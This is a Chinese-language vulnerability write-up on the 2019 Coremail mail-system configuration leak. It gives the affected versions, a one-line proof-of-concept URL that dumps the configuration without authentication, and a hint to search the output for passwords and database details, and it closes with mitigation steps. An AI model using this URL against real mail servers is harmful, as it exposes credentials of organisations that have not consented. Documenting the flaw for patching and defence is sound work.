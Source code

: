 # Coremail配置文件信息泄漏

> 原文：[https://www.zhihuifly.com/t/topic/2858](https://www.zhihuifly.com/t/topic/2858)

### 一、漏洞简介

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news_x/article_id/32641.htm

### 二、漏洞影响

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

### 三、复现过程

##### POC

```
http://mail.xxxxx.com/mailsms/s?func=ADMIN:appState&dumpConfig=/ 
```

输入Poc访问漏洞页面
发现信息泄露页面内搜索user，password，database等关键字
如下图

![image](img/ca7ffe7a68d20b74aca6b57e6f0b65c9.png)

### 四、修复建议

1、在不影响使用的情况下，仅允许VPN连接后才可访问；

2、在Web服务器（nginx/apache）上限制外网对 /mailsms 路径的访问。建议使用Coremail构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。